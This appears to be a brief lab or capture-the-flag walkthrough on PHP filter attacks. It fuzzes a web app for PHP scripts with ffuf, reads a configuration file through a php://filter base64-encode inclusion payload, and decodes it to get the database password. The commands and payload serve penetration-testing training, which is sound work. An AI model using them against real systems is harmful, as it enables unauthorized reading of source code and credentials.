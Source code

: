 # PHP Filters

#### Fuzz the web application for other php scripts, and then read one of the configuration files and submit the database password as the answer

**Step 1** - Fuzz configuration files:

* Use this [wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/directory-list-2.3-small.txt)
* Fuzz with the following command:
  * <pre><code><strong>ffuf -w /wordlist:FUZZ -u http://SERVER_IP:PORT:/FUZZ.php
    </strong></code></pre>
* Three files found

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

**Step 2** - Use PHP Filters to read the file content:

* php://filter/read=convert.base64-encode/resource=**configure**

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

**Step 3** - Read the previous base64 string:

* `echo 'base64 string' | base64 -d`&#x20;

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

And we got the flag!
